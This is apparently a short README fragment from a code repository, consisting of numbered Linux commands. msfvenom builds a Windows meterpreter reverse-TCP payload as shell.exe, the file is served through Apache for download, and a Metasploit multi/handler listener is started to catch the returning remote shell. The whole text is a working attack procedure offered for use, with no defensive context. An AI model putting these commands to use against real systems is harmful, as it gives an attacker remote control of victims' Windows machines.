 ## Instructions:
  ### On the host machine (linux): // Note: (change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   3.  service apache2 start
   3.  msfconsole
   4.  use exploit/multi/handler
   5.  set PAYLOAD windows/meterpreter/reverse_tcp
   6.  set LHOST 192.168.0.24
   7.  set LPORT 8080
   8.  exploit
  
